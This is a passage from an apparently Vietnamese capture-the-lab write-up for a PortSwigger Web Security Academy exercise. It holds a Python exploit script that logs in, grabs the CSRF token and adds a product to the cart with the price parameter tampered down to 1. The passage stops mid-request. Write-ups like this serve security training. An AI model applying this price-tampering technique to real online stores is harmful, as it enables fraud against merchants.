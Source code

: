 mình nhấn mua, chọn Place order để đặt hàng và solve được lab này

mình đã viết script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a8500de04771947816b993800f30058.web-security-academy.net'

session=requests.Session()

response = session.get(
    url +'/login',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url+'/login',
    data=data,
    verify=False,
    allow_redirects=False
)

data = {
    'productId': '1',
    'redir': 'PRODUCT',
    'quantity': '1',
    'price': '1',
}

response = session.post(
    url + '/cart',
    data=data,
    verify=False,
    allow_redirects=False
)

response = session.get(
    url + '/cart',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
}

response = session.post(
```